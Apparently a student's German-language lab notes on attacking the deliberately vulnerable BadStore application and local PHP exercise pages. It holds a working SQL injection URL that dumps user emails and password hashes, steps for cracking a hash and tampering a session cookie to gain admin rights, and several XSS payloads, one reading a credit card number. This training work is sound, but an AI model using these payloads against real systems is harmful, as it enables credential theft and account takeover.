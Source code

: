 ## 6.5. Broken Access Control
### Erst mittels SQL Injection an die User Daten kommen:
```SQL
http://192.168.178.119/cgi-bin/badstore.cgi?searchquery=xx%27+IN+(itemnum,sdesc,ldesc)+union+select+email,passwd,null,null+from+userdb+LIMIT+2+--+&action=search&x=16&y=7
``` 

- User ist "AAA_Test_User", Passwort ist "098F6BCD4621D373CADE4E832627B4F6"

### Dann mittels https://hashes.com/en/decrypt/hash das Passwort rausfinden
- Die Daten sind *AAA_Test_user:test*

### Jetzt Cookie Tampering, um Privilege Escalation zu machen und Admin zu werden
- Cookie ist *SSOid=UFBX1Rlc3RfdXNlcjowOThmNmJjZDQ2MjFkMzczY2FkZTRlODMyNjI3YjRmNjpUZXN0IFVzZXI6%0AVQ%3D%3D%0A*
- Erst URL Decode: *UFBX1Rlc3RfdXNlcjowOThmNmJjZDQ2MjFkMzczY2FkZTRlODMyNjI3YjRmNjpUZXN0IFVzZXI6
VQ==*
- Vllt. base64 decode?

## 6.7 - 1.php
### Versuche die URL des Dokumentes anzuzeigen
```Javascript
<script>alert(window.location.href);</script>
```

### "action" Feld der "form" modifizieren, um zu einer anderen URL weiterzuleiten
- über die Konsole folgendes machen
```Javascript
<script>document.getElementsByTagName("form")[0].action = "2.php";</script>
```

## 6.7.1 - 1.php
### Cookie Tampering um eine Javascript Injection durchzuführen
```Javascript
%3Cscript%3Ealert%28%22hi%22%29%3C%2Fscript%3E%2C2%2C7.5%3Bother%2Bitem%2C1%2C3.2
```

### Credit Card Number ausgeben
```Javascript
<SCRIPT>alert(decodeURIComponent(new URLSearchParams(window.location.search).get('cc_number')))</SCRIPT>%2C2%2C7.5%3Bother+item%2C1%2C3.2
```

### 2.php ausführen
```Javascript
document.getElementsByTagName("FORM")[0].action = "2.php";
```